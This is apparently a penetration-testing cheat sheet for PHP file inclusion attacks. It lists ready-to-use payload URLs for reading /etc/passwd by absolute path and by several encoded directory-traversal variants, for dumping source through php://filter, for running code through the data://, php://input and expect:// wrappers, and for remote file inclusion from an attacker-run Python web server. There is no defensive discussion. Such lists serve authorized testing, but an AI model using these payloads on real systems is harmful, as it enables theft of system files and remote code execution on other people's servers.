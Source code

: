 # File Inclusion Cheat Sheet

## Basic

### Absolute Path

http://example.com/query?var=/etc/passwd

### Directory Traversal

http://example.com/query?var=../../../../etc/passwd

http://example.com/query?var=....//....//....//....//etc/passwd

http://example.com/query?var=./var/../../../etc/passwd

http://example.com/query?var=..%2F..%2F..%2F..%2Fetc%2Fpasswd

## Filter

http://example.com/query?var=php://filter/read=convert.base64-encode/ressource=\<FILE\>

## Wrappers

### data

http://example.com/query?var=data://text/plain;base64,\<URL\_BASE64\_ENCODED\_SCRIPT\>

### input

Need allow\_url\_include<br>
Give the script as POST data<br>

http://example.com/query?var=php://input

### Expect

Need expect extension and allow\_url\_include<br>

http://example.com/query?var=expect://id

## Remote File Inclusion

python3 -m http.server \<LISTENING\_PORT\>
http://example.com/query?var=http://\<OUR\_IP\>:\<LISTENING\_PORT\>/\<SCRIPT\>

Same with **FTP**<br>



